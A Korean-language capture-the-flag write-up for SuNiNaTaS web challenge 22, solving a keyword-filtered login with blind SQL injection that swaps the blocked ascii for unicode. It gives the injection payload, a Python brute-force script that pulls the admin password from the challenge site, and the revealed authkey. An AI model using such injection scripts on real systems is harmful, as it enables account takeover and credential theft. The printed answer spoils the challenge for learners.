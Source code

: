 <br>

+ Filtering keyword
  + select / Union / or / white space / by / having

  + from / char / ascii / left / right / delay / 0x 

```<!-- Hint : guest / guest & Your goal is to find the admin's pw -->```

<br>

ascii -> unicode로 대체

우선 비밀번호 길이를 구해보니 10이였음. -> len(pw)=10

이제 unicode를 통해 blind sql injection을 해주면 됨.

<br>

```sql
id=admin' and unicode(substring(pw,1,1))>1 -- &pw=1
```

<br>

```python
import requests

url='http://suninatas.com/challenge/web22/web22.asp'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'ASPSESSIONIDQCDTTBSB':'AOIFBMIDIJKNDAEHKNBOIKMH'}
pw=''
for i in range(1,11):
    for j in range(32,127) :
        payload={
            'id':"admin' and unicode(substring(pw,"+str(i)+",1))="+str(j)+" -- ", 
            'pw':'1'
        }
        res=requests.get(url, params=payload, headers=headers, cookies=cookies)
        if "False" not in res.text :
            pw+=chr(j)
            print("Password : {}".format(pw)) # Password : N1c3Bilnl)
            break
```

<br>

+ Authkey :  N1c3Bilnl)

<br>
<br>
<hr style="border: 2px solid;">
<br>
<br>

## level 23
<hr style="border-top: 1px solid;">
